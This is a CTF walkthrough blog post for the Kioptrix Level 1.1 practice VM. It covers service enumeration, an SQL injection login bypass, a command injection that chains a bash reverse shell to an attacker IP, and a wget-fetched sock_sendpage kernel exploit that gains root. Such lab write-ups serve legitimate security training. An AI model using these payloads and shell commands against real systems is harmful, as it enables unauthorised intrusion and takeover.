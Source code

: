 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.1 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.1 Walkthrough, CTF solution for Kioptrix Level 1.1'
categories: [walkthroughs]
tags:
- Kioptrix
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 3.9p1 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 631</code></p></pc>
           </td>
           <td>
              <pc><p>CUPS</p></pc>
           </td>
           <td>
               <pc><p>CUPS 1.1</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 946</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>RPC</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 3306</code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL (unauthorized)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

The web form <code>/index.php</code> was vulnerable to [SQL injection](/penetration-testing/web-app/sql-injection/), entering the username <code>admin</code> and the password <code>' or '1'=' </code> successfully bypassed auth.  


![SQL Injection Auth Bypass](/img/blog/kioptrix/sql-injection-1-1.png)


<div class="note info">
  <h5>SQL Injection - Why does ' or '1'='1 work ?</h5>
  <p>

  The web application is expecting the SQL query:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password='blah'";</code>

  Entering the above <b>injects</b> the statement after the <code>password='blah'</code> and before the closing <code>";</code>, the entire sql injection query looks like:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password=' or '1'='1";"</code>

  <code>1 = 1</code> will always be <code>1</code>, thus the statement will return true, allowing an attacker to authenticate as admin. The above injection statement correctly closes the sql syntax, however it is possible to comment out the rest of the sql statement using: <code> -- -</code>

  </p>
</div>

![Command Injection](/img/blog/kioptrix/command-injection.png)

The above authentication bypass exposed a web form vulnerable to <b>command injection</b>, the form filtering only checks for the presence of the ping command with no filtering to prevent an attacker tacking a comment on the end using <code>; insert-command-here</code>.

## Non privileged shell

A non privileged reverse shell was obtained using:

{% highlight bash %}

ping google.com; bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.157] 32770
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$
{% endhighlight %}

## Local privilege Escalation


{% highlight bash %}
bash-3.00$ uname -ar
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9545 --no-check-certificate
--02:27:58--  https://www.exploit-db.com/download/9545
           => `9545'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]

    0K .........                                                30.10 MB/s

02:27:58 (30.10 MB/s) - `9545' saved [9785]

bash-3.00$ mv 9545 sock_sendpage.c                             
bash-3.00$ gcc -o sock_sendpage sock_sendpage.c
bash-3.00$ ./sock_sendpage
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
{% endhighlight %}

Thanks for the VM :)
